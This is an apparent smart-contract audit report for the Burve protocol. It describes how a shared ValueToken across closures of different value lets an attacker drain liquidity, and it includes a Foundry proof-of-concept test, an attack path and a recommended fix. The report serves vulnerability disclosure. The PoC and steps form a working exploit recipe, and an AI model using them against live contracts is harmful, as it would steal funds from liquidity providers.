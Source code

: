Curved Lemonade Dove

High

# The value of each closure is not the same, and the same ValueToken cannot be used for all cids

### Summary

In ValueTokenFacet.sol, the mint/burn function uses the same ValueToken regardless of the cid.This can lead to an attacker being able to add liquidity to a low value closure to get a ValueToken, and then take out liquidity in a high value closure to get a more valuable more tokens.

In addition, the protocol hopes that when a token in the pool crashes unexpectedly, it will not affect users who have not added such liquidity. But it is not feasible under this kind of value design. Let's say user A adds liquidity for 15 tokens, but doesn't add aBTC. Then aBTC plummeted, which should not affect user A. However, users of other liquidity pools can exchange mint/burn ValueToken for the liquidity of the closure where user A is located, so as to avoid their losses. The loss is borne by users like user A.

### Root Cause

In [ValueTokenFacet.sol](https://github.com/sherlock-audit/2025-04-burve/blob/44cba36e2a0c3cd7b6999459bf7746db92f8cc0a/Burve/src/multi/facets/ValueTokenFacet.sol#L16-L32), the mint/burn function uses the same ValueToken regardless of the cid.

### Internal Pre-conditions

1. In the pool where the attacker wants to take out the mobility, there needs to be another user who has already minted the ValueToken, otherwise the mobility will reach maxValue and revert when burning the ValueToken.

### External Pre-conditions

none

### Attack Path

1. There is a difference in the value of the liquidity of two pools. In normal market volatility, this must exist.
2. The attacker adds liquidity to the lower value pool cidA.
3. The attacker mint the ValueToken through cidA, and then burn the ValueToken to obtain the liquidity of cidB
4. Remove the liquidity of cidB.
5. The attacker gets more value.

### Impact

Liquidity providers lose value. Attackers can steal liquidity without paying any cost.

### PoC

Put the following poc under the test/facets folder
run `forge test --mt testdiff_cid_valueToken -vvv`
```solidity
// SPDX-License-Identifier: BUSL-1.1
pragma solidity ^0.8.27;

import {MultiSetupTest} from "./MultiSetup.u.sol";
import {console2 as console} from "forge-std/console2.sol";
import "../../src/multi/facets/ValueFacet.sol";
import {ERC20} from "openzeppelin-contracts/token/ERC20/ERC20.sol";
import {AssetBookImpl} from "../../src/multi/Asset.sol";
import {MAX_TOKENS} from "../../src/multi/Token.sol";
import {MockERC20} from "../mocks/MockERC20.sol";
import {MockERC4626} from "../mocks/MockERC4626.sol";

contract ValueFacetTest is MultiSetupTest {
    function setUp() public {
        vm.startPrank(owner);
        _newDiamond();
        _newTokens(4);
        _fundAccount(alice);
        _fundAccount(bob);
        // Its annoying we have to fund first.
        _fundAccount(address(this));
        _fundAccount(owner);
        // So we have to redo the prank.
        vm.startPrank(owner);
        _initializeClosure(0xF, 100e18); // 1,2,3,4
        _initializeClosure(0xE, 100e18); // 2,3,4
        _initializeClosure(0xD, 100e18); // 1,3,4
        _initializeClosure(0xc, 1e12); // 3,4
        _initializeClosure(0xB, 100e18); // 1,2,4
        _initializeClosure(0xa, 1e12); // 2,4
        _initializeClosure(0x9, 1e18); // 1,4
        _initializeClosure(0x8, 1e12); // 4
        _initializeClosure(0x7, 100e18); // 1,2,3
        _initializeClosure(0x6, 100e18); // 2,3
        _initializeClosure(0x5, 1e28); // 1,3
        _initializeClosure(0x4, 1e12); // 3
        _initializeClosure(0x3, 100e18); // 1,2
        _initializeClosure(0x2, 1e12); // 2
        _initializeClosure(0x1, 1e12); // 1
        vm.stopPrank();
    }

    // Test whether the token values of different cids should be equal
    function testdiff_cid_valueToken() public {
        // Simulates market price changes, where the price of tokens[0] is smaller than that of tokens[1]
        (uint256 inAmount, uint256 outAmount) = swapFacet.swap(
            bob, // recipient
            tokens[0], // tokenIn
            tokens[1], // tokenOut
            int256(1e19), // positive for exact input
            0, // no price limit{}
            0x3
        );

        // Simulating market price changes, the price of tokens[1] is smaller than that of tokens[2]
        (uint256 inAmount1, uint256 outAmount1) = swapFacet.swap(
            bob, // recipient
            tokens[1], // tokenIn
            tokens[2], // tokenOut
            int256(1e19), // positive for exact input
            0, // no price limit{}
            0x6
        );
        // Last state, the price sorting in the market: token[0]<token[1]<token[2]. This state must exist in reality.
        
        // bob is a normal user, and after adding liquidity, the normal mint valueToken
        valueFacet.addValue(bob, 0x6, 1e19, 0);
        vm.prank(bob);
        valueTokenFacet.mint(1e19, 0, 0x6);


        // alice, as the attacker, uses Single for ease of showing gains
        vm.startPrank(alice);
        uint256 requiredBalance = valueFacet.addValueSingle(
            alice,
            0x3,
            1e19,
            0,
            tokens[1],
            0
        );

        valueTokenFacet.mint(1e19, 0, 0x3);

        valueTokenFacet.burn(1e19, 0, 0x6);

        uint256 received = valueFacet.removeValueSingle(
            alice,
            0x6,
            1e19,
            0,
            tokens[1],
            0
        );
        vm.stopPrank();

        // If it's positive, the attack was successful. This is just to verify that this issue exists and that there must be a more profitable way to attack.
        console.log("diff:", int(received) - int(requiredBalance));
    }
}
```

### Mitigation

It is recommended that different valueTokens should be used for different cids.